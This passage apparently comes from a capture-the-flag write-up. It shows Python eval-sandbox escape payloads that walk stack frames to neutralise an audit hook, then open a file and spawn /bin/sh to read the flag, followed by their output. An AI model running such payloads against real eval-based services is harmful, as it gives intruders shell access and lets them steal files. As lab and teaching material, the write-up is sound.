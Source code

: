 ```python

def my_audit_hook(event, _):
    print('Raised event: ' + event)
sys.addaudithook(my_audit_hook)

myfunc = create_function('myfunc')
```

So, back to constructing our payload to disable auditing. We will invoke `os.open('flag.txt')` as PoC to verify that indeed our payload worked:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 4545313753576
Raised event: builtins.input
```
`[list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals['my_audit_hook'].__setattr__('__code__', (lambda arg1, arg2: None).__code__), __builtins__['__import__']('os').open('flag.txt', 0)]`
```bash
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Raised event: object.__getattr__
Raised event: object.__setattr__
Evaluated data:
[None, 3]
Guess game end!!!
```

And indeed it worked! The `3` that appears in `[None, 3]`, is our file descriptor! Also, we see no event raised!

### Final Payload

Ok, now we have all we need to construct our final payload, and get the flag. Let's throw our payload against the server's challenge:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
```
`[__builtins__['__import__']('sys').__setattr__('stdout', list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals['challenge_original_stdout']), print("Hello World!"), list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals['my_audit_hook'].__setattr__('__code__', (lambda arg1, arg2: None).__code__), __builtins__['__import__']('os').system('/bin/sh')]`
```bash
Hello World!
$ ls
flag.txt  service.py
$ cat flag.txt
flag{c0ool_y0u_ArE_aN_SuPer_GuE33eR_M@n!}
$ exit
Guess game end!!!
```
